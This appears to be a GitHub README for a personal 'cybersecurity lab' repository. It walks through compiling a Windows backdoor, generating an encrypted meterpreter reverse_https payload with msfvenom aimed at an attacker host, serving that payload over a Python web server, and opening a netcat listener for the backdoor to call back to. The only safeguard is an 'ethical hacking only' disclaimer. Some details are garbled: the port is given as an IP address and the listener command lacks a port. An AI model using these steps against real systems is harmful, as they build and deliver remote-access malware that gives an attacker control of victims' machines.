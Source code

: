 # cybersecurity
Cybersecurity Lab Experiences by Fabio Felgueiras

Use this for ethical hacking only 

1- Download

    git clone https://github.com/Blive77/cybersecurity/blob/main/backdoor.cpp
    
2- Compile

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
    
    
3- Create custom SSL/TLS certificate 

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
    
4- Create the Payload with msfvenom in Kali linux
    in my case:
    Host IP= 192.168.235.132
    Host Port= 192.168.235.132
    Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
    
5- Setup the http webserver for Payload download (while in cybersecurity folder)

    python -m http.server
    
5- Open the listner for the backdoor to connect to (using netcat)

    nc -lvvnp

